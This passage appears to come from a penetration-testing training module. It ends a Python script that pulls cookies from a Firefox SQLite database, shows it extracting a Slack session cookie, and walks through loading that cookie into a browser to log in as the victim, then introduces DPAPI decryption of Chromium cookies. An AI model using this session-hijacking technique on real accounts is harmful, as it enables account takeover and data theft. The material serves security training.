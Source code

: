 ```python
	else:
		print("[-] No cookie found with the selected options.")

	conn.close()

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("--dbpath", "-d", required=True, help="The path to the sqlite cookies database")
	parser.add_argument("--host", "-o", required=False, help="The host for the cookie", default="")
	parser.add_argument("--cookie", "-c", required=False, help="The name of the cookie", default="")
	args = parser.parse_args()
	main(args.dbpath, args.host, args.cookie)
```

Basic usage:

```shell-session
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```

Output:

```
(10, '', 'd', 'xoxd-VGhpcyBpcyBhIGNvb2tpZSB0byBzaW11bGF0ZSBhY2Nlc3MgdG8gU2xhY2ssIHN0ZWFsaW5nIGEgY29va2llIGZyb20gYSBicm93c2VyLg==', '.api.slacktestapp.com', '/', 7975292868, 1663945037085000, 1663945037085002, 0, 0, 0, 1, 0, 2)
```

Now that we have the cookie, we can use any browser extension to add the cookie to our browser. For this example, we will use Firefox and the extension [Cookie-Editor](https://cookie-editor.cgagnier.ca/). Make sure to install the extension by clicking the link, selecting your browser, and adding the extension. 

Once you save the cookie, refresh the target page, which was slack.com, and you are logged in as the user.

Now we are logged in as the user and can click on `Launch Slack`.

We may get a prompt for credentials or other types of authentication information; we can repeat the above process and replace the cookie `d` with the same value we used to gain access the first time on any website that asks us for information or credentials.

Once we complete this process for every website where we get a prompt, we need to refresh the browser, click on `Launch Slack` and use Slack in the browser.


 ### Cookie Extraction from Chromium-based Browsers

The chromium-based browser also stores its cookies information in an SQLite database. The only difference is that the cookie value is encrypted with [Data Protection API (DPAPI)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection). `DPAPI` is commonly used to encrypt data using information from the current user account or computer.

To get the cookie value, we'll need to perform a decryption routine from the session of the user we compromised.

